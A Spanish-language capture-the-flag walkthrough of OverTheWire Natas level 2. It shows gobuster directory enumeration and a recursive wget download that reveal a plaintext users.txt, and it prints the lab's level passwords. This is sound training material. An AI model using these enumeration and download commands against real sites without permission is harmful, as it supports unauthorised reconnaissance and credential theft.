


# Laboratorio OverTheWire Natas 2

## Objetivo

El objetivo de este nivel es encontrar la contraseña para acceder al siguiente, **natas3**.

## Acceso al nivel

Las credenciales se obtienen en el nivel anterior (**natas1**):

```
Username: natas2
Password: TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
URL: http://natas2.natas.labs.overthewire.org/
```

Al ingresar con estos datos, la página muestra un mensaje que dice:

> "*No hay nada en esta página*"



## Proceso paso a paso

1. A diferencia del nivel anterior, aquí no hay información útil ni comentarios dentro del código fuente.

2. Intenté acceder a rutas comunes como `/admin` o `/config`, pero no obtuve resultados relevantes.

3. Utilice Gobuster para buscar directorios ocultos, utilicé la herramienta `gobuster`:

```bash
gobuster dir -u http://natas2.natas.labs.overthewire.org/ \
-w /usr/share/dirb/wordlists/common.txt \
-U natas2 -P TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
```

Los resultados más relevantes que encontro la herramienta fue:

```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/cgi-bin/             (Status: 403)
/files                (Status: 301) [--> http://natas2.natas.labs.overthewire.org/files/]
/index.html           (Status: 200)
/server-status        (Status: 403)
```

El directorio más interesante es `/files`, que devuelve un **301 (Moved Permanently)** redirigiendo a `/files`. Esto es un comportamiento común en servidores web.

4. Al acceder a `http://natas2.natas.labs.overthewire.org/files/` encontramos dos archivos: **image.png**, **users.txt**



5. Haciendo click en el archivo user.txt ya podemso ver las credenciales, pero en este caso yo utilice `wget` con esta herramienta podemos descargar el contenido del directorio para ver la informacion por la terminal.

```bash
wget --user=natas2 --password='TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI' \
-r -np -nH http://natas2.natas.labs.overthewire.org/files/
```

Luego, accedemos al directorio descargado:

```bash
cd files
cat users.txt
```

El contenido de `users.txt` es:

```
username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

Aquí encontramos las credenciales que buscamos:
**natas3 : 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH**

## Observaciones 

* Nunca se deben almacenar credenciales en texto plano dentro de rutas públicas.
* Para pruebas más exhaustivas, probar wordlists más grandes o específicas y añadir extensiones comunes (`-x txt,html,php`) al usar `gobuster`.

## Conclusión

Este laboratorio muestra cómo una configuración insegura del servidor puede filtrar información crítica.

